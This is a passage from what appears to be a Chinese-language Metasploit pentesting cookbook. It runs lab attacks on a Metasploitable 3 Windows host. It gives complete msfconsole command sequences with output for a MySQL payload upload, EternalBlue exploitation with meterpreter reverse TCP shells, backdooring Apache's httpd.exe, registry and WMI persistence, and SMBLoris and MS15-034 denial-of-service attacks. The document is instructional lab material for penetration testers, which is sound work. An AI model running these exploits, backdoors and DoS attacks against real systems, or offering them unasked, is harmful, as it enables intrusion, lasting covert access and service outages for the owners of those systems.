msf auxiliary(mysql_enum) > use exploit/windows/mysql/mysql_payload
msf exploit(mysql_payload) > set RHOST 192.168.216.10
RHOST => 192.168.216.10
msf exploit(mysql_payload) > set PAYLOAD
windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(mysql_payload) > set LHOST 192.168.216.5
LHOST => 192.168.216.5
msf exploit(mysql_payload) > exploit
```

```
[*] Started reverse TCP handler on 192.168.216.5:4444
[*] 192.168.216.10:3306 - Checking target architecture...
[*] 192.168.216.10:3306 - Checking for sys_exec()...
[*] 192.168.216.10:3306 - sys_exec() already available, using that (override with FORCE_UDF_UPLOAD).
...
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```

由于目标没有 root 密码，因此可以使用 MySQL 服务上传 shell 并获得对系统的远程访问。因此，即使你认为没有人会配置一个没有密码的服务，也不要忘记测试基础内容。

## MS17-010 EternalBlue SMB 远程 Windows 内核池损坏

再次，利用在信息收集和扫描阶段收集到的情报，特别是 MS17-010 SMB RCE Detection 辅助模块的输出，我们可以转向下一个易受攻击的服务。

### 准备工作

不深入细节，MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption 漏洞利用模块是 Equation Group ETERNALBLUE 漏洞利用的一部分，该漏洞利用是 Shadow Brokers 发布 FuzzBunch 工具包的一部分，通常被认为是由美国国家安全局（NSA）开发并作为 WannaCry 勒索软件攻击的一部分使用。它是 Srv!SrvOs2FeaToNt 中 memmove 操作的缓冲区溢出，允许我们执行任意有效载荷。此漏洞影响未安装针对 Microsoft Windows SMB Server SMBv1 Server 的安全更新 MS17-010 的 Windows 机器。

### 如何操作...

要启动漏洞利用，请使用 MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption 漏洞利用模块，设置目标 IP 地址，使用 meterpreter 反向 TCP 有效载荷，并指定监听地址：

```
msf > use exploit/windows/smb/ms17_010_eternalblue
msf exploit(ms17_010_eternalblue) > set RHOST 192.168.216.10
RHOST => 192.168.216.10
msf exploit(ms17_010_eternalblue) > set PAYLOAD
windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf exploit(ms17_010_eternalblue) > set LHOST 192.168.216.5
LHOST => 192.168.216.5
msf exploit(ms17_010_eternalblue) > exploit
...

meterpreter > sysinfo
Computer : VAGRANT-2008R2
OS : Windows 2008 R2 (Build 7601, Service Pack 1).
...

meterpreter >
```

渗透测试与漏洞扫描器不同的一个结果是，当你向他们展示目标系统上正在运行的 shell 的屏幕截图时，没有人会说你发现的是误报。

## MS17-010 EternalRomance/EternalSynergy/EternalChampion

MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution 漏洞利用模块可用于通过 EternalRomance、EternalSynergy 和 EternalChampion 利用 MS17-010 漏洞。此漏洞利用比 EternalBlue 漏洞利用更可靠，但需要命名管道。

### 如何操作...

要启动漏洞利用，请使用 MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution 漏洞利用模块，设置目标 IP 地址，使用 meterpreter 反向 TCP 有效载荷，并指定监听地址：



## 安装后门

在目标系统上拥有一个 shell 很棒，但有时还不够。有了后门，我们就能确保持久性并在漏洞被修补后仍能访问系统。

### 准备工作

现在我们在目标系统中有了一个会话，我们将使用该会话来后门一个服务；在本教程中，我们将首先对 Apache 服务器进行后门：



接下来，我们将使用 Windows Registry Only Persistence 本地漏洞利用模块创建一个在启动时执行的后门。

最后，我们将使用 Windows Management Instrumentation（WMI）创建一个持久的无文件后门。WMI Event Subscription Persistence 漏洞利用模块创建永久的 WMI 事件订阅以实现无文件持久性。

### 如何操作...

- 1. 由于我们不能在二进制文件运行时对其进行后门，因此首先需要做的是杀死 Apache 进程（httpd.exe），使用 kill 命令后跟进程的 PID：

```
meterpreter > kill 3820
Killing: 3820
meterpreter >
```

- 2. 然后，我们在 meterpreter 中使用 download 命令下载我们想要后门的服务二进制文件：

```
meterpreter > download
C:\\wamp\\bin\\apache\\apache2.2.21\\bin\\httpd.exe
[*] Downloading: C:\wamp\bin\apache\apache2.2.21\bin\httpd.exe
-> httpd.exe
...

msf exploit(ms17_010_eternalblue) >
```

为了后门该服务，我们将使用 msfconsole，并使用反向 TCP。

- 3. 将监听地址设置为我们的 Kali Linux 机器 IP 地址，并使用 generate 命令对二进制文件进行后门，使用 -a 选项指定架构、-p 指定平台、-x 指定要使用的可执行模板、-k 保持模板可执行文件功能、-t 指定输出格式、-f 指定输出文件名：

```
msf exploit(ms17_010_eternalblue) > use payload/windows/x64/meterpreter/reverse_tcp
msf payload(reverse_tcp) > set LHOST 192.168.216.5
LHOST => 192.168.216.5
msf payload(reverse_tcp) > generate -a x64 -p Windows -x /root/httpd.exe -k -t exe -f httpd-backdoored.exe
[*] Writing 29184 bytes to httpd-backdoored.exe...
msf payload(reverse_tcp) >
```

- 4. 现在后门已准备就绪，我们需要为反向连接启动一个监听器；为此我们将使用 Generic Payload Handler：

```
msf payload(reverse_tcp) > use exploit/multi/handler
msf exploit(handler) > set PAYLOAD
windows/x64/meterpreter/reverse_tcp
PAYLOAD => windows/x64/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.216.5
LHOST => 192.168.216.5
msf exploit(handler) > exploit -j
[*] Exploit running as background job 0.

[*] Started reverse TCP handler on 192.168.216.5:4444
msf exploit(handler) >
```

exploit -j 命令将在作业的上下文中运行它，使我们能够返回到我们的会话并继续攻击。


5. 回到会话中，我们将把 httpd.exe 文件重命名为 httpd.exe.backup，上传带后门的版本，并将其重命名为 httpd.exe：

```
msf exploit(handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > cd C:\wamp\bin\apache\apache2.2.21\bin\
meterpreter > mv httpd.exe httpd.exe.backup
meterpreter > upload httpd-backdoored.exe
[*] uploading : httpd-backdoored.exe -> httpd-backdoored.exe
[*] uploaded : httpd-backdoored.exe -> httpd-backdoored.exe
meterpreter > mv httpd-backdoored.exe httpd.exe
meterpreter >
```

6. 然后，我们将进入系统命令 shell，并使用 net stop 命令停止 wampapache，然后使用 net start 重新启动它：

```
meterpreter > shell
Process 2272 created.
Channel 3 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.

C:\wamp\bin\apache\apache2.2.21\bin>net stop wampapache
net stop wampapache
...

C:\wamp\bin\apache\apache2.2.21\bin>^Z
Background channel 3? [y/N] y
meterpreter >
```

从输出中可以看到，一旦我们启动了服务，目标系统上就出现了两个新的 meterpreter 会话：



7. 要使用 Windows 注册表仅持久化模块，我们需要指定运行该模块的会话，在本例中是使用 MS17-010 EternalBlue SMB 远程 Windows 内核池损坏漏洞利用获得的会话 1；设置 payload；设置监听 IP 地址；并使用 exploit 命令启动漏洞利用：

```
msf > use exploit/windows/local/registry_persistence
msf exploit(registry_persistence) > set SESSION 1
SESSION => 1
msf exploit(registry_persistence) > set PAYLOAD
windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(registry_persistence) > set LHOST 192.168.216.5
LHOST => 192.168.216.5
msf exploit(registry_persistence) > exploit
...

HKCU\Software\Microsoft\Windows\CurrentVersion\Run\16jfvtho
[*] Clean up Meterpreter RC file:
/root/.msf4/logs/persistence/192.168.216.10_20171029.4303/192.168.216.10_20171029.4303.rc
```

8. 现在我们已成功安装后门注册表项，我们需要设置监听器，以便下次机器重启时我们会获得一个会话：

```
msf exploit(registry_persistence) > use exploit/multi/handler
msf exploit(handler) > set PAYLOAD
windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.216.5
LHOST => 192.168.216.5
msf exploit(handler) > run -j
[*] Exploit running as background job 0.

[*] Started reverse TCP handler on 192.168.216.5:4444
msf exploit(handler) >
```

9. 要触发漏洞利用，只需重新启动 Metasploitable 3 机器，我们就会获得一个新的会话：

```
msf exploit(handler) >
[*] Sending stage (179267 bytes) to 192.168.216.10
[*] Meterpreter session 2 opened (192.168.216.5:4444 -> 192.168.216.10:49290) at 2017-10-29 07:39:45 -0400

msf exploit(registry_persistence) > sessions -i 2
```

```
[*] Starting interaction with 2...

meterpreter > sysinfo
Computer : VAGRANT-2008R2
OS : Windows 2008 R2 (Build 7601, Service Pack 1).
Architecture : x64
System Language : en_US
Domain : WORKGROUP
Logged On Users : 2
Meterpreter : x86/windows
meterpreter >
```

太好了，我们从目标系统获得了新的会话。

10. 要使用 WMI 事件订阅持久化本地漏洞利用模块，我们首先需要指定运行该模块的会话。然后，我们将回调间隔设置为一分钟，这样就无需等待 30 分钟的默认时间；接下来将触发 payload 的事件 ID 设置为 4624（成功登录），将触发 payload 的用户名设置为 Administrator，并使用 exploit 命令启动漏洞利用：

```
msf > use exploit/windows/local/wmi_persistence
msf exploit(wmi_persistence) > set SESSION 1
SESSION => 1
msf exploit(wmi_persistence) > set CALLBACK_INTERVAL 60000
CALLBACK_INTERVAL => 60000
msf exploit(wmi_persistence) > set EVENT_ID_TRIGGER 4624
EVENT_ID_TRIGGER => 4624
msf exploit(wmi_persistence) > set USERNAME_TRIGGER Administrator
USERNAME_TRIGGER => Administrator
msf exploit(wmi_persistence) > set LPORT 4445
LPORT => 4445
msf exploit(wmi_persistence) > exploit

[-] This module cannot run as System
msf exploit(wmi_persistence) >
```

11. 查看输出，我们遇到了一个问题；该模块无法作为系统运行，这意味着我们必须返回会话并使用 migrate 命令迁移到在用户上下文中运行的进程：

```
msf exploit(wmi_persistence) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
```

```
Server username: NT AUTHORITY\SYSTEM
meterpreter > migrate -N explorer.exe
[*] Migrating from 5700 to 4624...
[*] Migration completed successfully.
meterpreter > getuid
Server username: VAGRANT-2008R2\vagrant
meterpreter > background
[*] Backgrounding session 1...
msf exploit(wmi_persistence) > exploit
...
[*] Clean up Meterpreter RC file:
/root/.msf4/logs/wmi_persistence/192.168.216.10_20171029.5446/
192.168.216.10_20171029.5446.rc
msf exploit(wmi_persistence) >
```

12. 然后，我们将设置监听器，使用通用 Payload 处理程序模块，以便下次用户登录到机器时，我们将使用我们的 WMI 后门获得一个新的会话：

```
msf exploit(handler) > set PAYLOAD
windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LPORT 4445
LPORT => 4445
msf exploit(handler) > set LHOST 192.168.216.5
LHOST => 192.168.216.5
msf exploit(handler) > exploit -j
[*] Exploit running as background job 1.
...

msf exploit(handler) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```

通过在目标机器上注销并以管理员用户身份登录，我们能够验证后门按预期工作。

## 拒绝服务

拒绝服务（DoS）攻击会拒绝合法用户访问计算机服务（或资源），通常是通过用请求使服务过载或利用漏洞来实现，导致性能下降，甚至可能导致服务或操作系统崩溃。

### 准备工作

SMBLoris 是针对 Microsoft Windows 操作系统的远程且无需凭据的 DoS 攻击，由 Server Message Block（SMB）网络协议实现中一个 20 多年前的漏洞引起。

### 如何操作...

- 1. 在使用 SMBLoris NBSS 拒绝服务辅助 DoS 模块之前，我们需要使用 ulimit 命令将最大打开文件描述符数设置为 65535，以便处理同时连接：

```
root@kali:~# ulimit -n 65535
root@kali:~# ulimit -n
65535
root@kali:~#
```

- 2. 现在我们已将最大同时连接数设置为 65535，我们可以使用 SMBLoris NBSS 拒绝服务辅助 DoS 模块攻击目标，只需设置 Metasploitable 3 机器的 IP 地址并输入 run 运行模块即可：

```
root@kali:~# msfconsole -q
msf > use auxiliary/dos/smb/smb_loris
msf auxiliary(smb_loris) > set RHOST 192.168.216.10
RHOST => 192.168.216.10
msf auxiliary(smb_loris) > run

[*] 192.168.216.10:445 - Sending packet from Source Port: 1025
[*] 192.168.216.10:445 - Sending packet from Source Port: 1026
[*] 192.168.216.10:445 - Sending packet from Source Port: 1027
...snip...
[*] 192.168.216.10:445 - Sending packet from Source Port:
29867
```

```
^C[-] 192.168.216.10:445 - Auxiliary interrupted by the console user
[*] Auxiliary module execution completed
msf auxiliary(smb_loris) >
```

我们可以使用 -q 选项启动 msfconsole，这样启动时就不会打印横幅。要显示 MSFconsole 的手册页，可以使用 man 命令，如此—man msfconsole。

- 3. 查看目标机器，我们可以看到攻击通过发送 SMB 请求来消耗目标中的大量内存，其中 NetBIOS 会话服务（NBSS）长度头值设置为最大可能值，这会启动大量会话，并且内存不会被释放，导致目标机器停止响应：




另一个很棒的 DoS 攻击是 MS15-034 HTTP 协议栈请求处理拒绝服务。

## 如何操作...

如果 Microsoft Windows 7、Windows 8、Windows Server 2008 或 Windows Server 2012 运行着未安装 MS15-034 的 IIS 服务，我们可以使用此简单攻击使目标崩溃：

```
msf > use auxiliary/dos/http/ms15_034_ulonglongadd
msf auxiliary(ms15_034_ulonglongadd) > show options

Module options (auxiliary/dos/http/ms15_034_ulonglongadd):

    Name            Current Setting     Required  Description
    ----            ---------------     --------  -----------
    Proxies                                 no        A proxy chain of format
type:host:port[,type:host:port][...]
    RHOSTS                                    yes       The target address range or
...
msf auxiliary(ms15_034_ulonglongadd) > set RHOSTS 192.168.216.10
RHOSTS => 192.168.216.10
msf auxiliary(ms15_034_ulonglongadd) > run
>[*] Scanned 1 of 1 hosts (100% complete)
...
msf auxiliary(ms15_034_ulonglongadd) >
```
